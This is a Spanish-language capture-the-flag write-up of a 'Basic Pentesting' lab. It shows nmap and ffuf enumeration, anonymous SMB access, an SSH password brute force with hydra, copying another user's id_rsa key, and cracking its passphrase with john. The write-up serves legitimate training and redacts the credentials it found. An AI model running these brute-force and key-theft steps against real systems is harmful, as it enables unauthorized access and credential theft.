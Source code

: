 # Basic Pentesting — Writeup

## TL;DR

Se identificaron servicios HTTP, SSH y Samba. Se encontró un share anónimo con `staff.txt` que sugiere el usuario `jan`. Se obtuvo acceso SSH a `jan` por fuerza bruta (wordlist `rockyou`), desde `jan` se recuperó la clave privada de `kay` y se crackeó su passphrase con `john`, permitiendo acceso final como `kay`.

---

## Enumeración (nmap)

**Comando**

```bash
nmap -sV --open $IP
```

**Comentario:** `-sV` detecta versiones de servicios. 

**Resultado**
```bash
# Nmap 7.95 scan initiated Fri Sep 26 19:54:46 2025 as: /usr/lib/nmap/nmap --privileged -sV --open $IP
Nmap scan report for $IP
Host is up (0.35s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 4
445/tcp open  netbios-ssn Samba smbd 4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 26 19:55:04 2025 -- 1 IP address (1 host up) scanned in 18.58 seconds
```
**Resumen**

* 22/tcp open  ssh (OpenSSH 8.2p1)
* 80/tcp open  http (Apache/2.4.41)
* 139/445/tcp open Samba (smbd)

---

## Enumeración de directorios web (ffuf)

**Comando**

```bash
ffuf -u http://$IP/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -t 300 -s -c
```

**Comentario:** `-t 300` define la cantidad de hilos; `-s` silencia headers extra; `-c` activa color en resultado.

**Resultado**
```bash
# Priority-ordered case-sensitive list, where entries were found
#
# Suite 300, San Francisco, California, 94105, USA.
# Copyright 2007 James Fisher
# or send a letter to Creative Commons, 171 Second Street,
# license, visit http://creativecommons.org/licenses/by-sa/3.0/
#

# directory-list-2.3-small.txt
#
# Attribution-Share Alike 3.0 License. To view a copy of this
#
# This work is licensed under the Creative Commons
# on at least 3 different hosts
development
```
**Resultado relevante**

* `/development`

---

## Smb — share anónimo

**Enumeración**

```bash
smbclient -L //$IP
```

**Resultado**
```bash
	Sharename       Type      Comment
	---------       ----      -------
	Anonymous       Disk      
	IPC$            IPC       IPC Service (Samba Server 4.15.13-Ubuntu)
Reconnecting with SMB1 for workgroup listing.
Protocol negotiation to server $IP (for a protocol between LANMAN1 and NT1) failed: NT_STATUS_INVALID_NETWORK_RESPONSE
Unable to connect with SMB1 -- no workgroup available
```
**Resultado relevante**
* Share accesible: `Anonymous (Disk)`

**Conexión y archivo**

```bash
smbclient //$IP/Anonymous
smb: \> ls
smb: \> get staff.txt
```
<details>
  <summary><i>staff.txt</i></summary>
  
```bash
  Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```

</details>

**Comentario:** Indicio de usuario `jan`. Revisar si el share expone archivos sensibles o rutas del filesystem.

---

## Fuerza bruta SSH (usuario: jan)

**Comando**

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt -t 4 ssh://$IP
```

**Comentario:** `-l` especifica login; `-P` wordlist; `-t 4` tareas paralelas. Usar siempre con autorización.

**Resultado (REDACTED en repo público)**

* Credenciales válidas obtenidas para `jan`.

---

## Acceso inicial y obtención de clave

**Operaciones realizadas**

```bash
ssh jan@$IP
# desde la sesión de jan:
scp jan@$IP:/home/kay/.ssh/id_rsa ./
```

**Comentario:** La clave privada `id_rsa` estaba accesible desde la cuenta `jan` — investigar permisos del fichero y si el share/sistema expuso la ruta. No se sube la clave al repo.

---

## Cracking de passphrase y acceso final

**Conversión y cracking**

```bash
ssh2john id_rsa > rsa_john.txt
john rsa_john.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

**Resultado (REDACTED)**

* Passphrase crackeada.

**Uso**

```bash
ssh -i id_rsa kay@$IP
# introducir passphrase para la clave
cat pass.bak
```
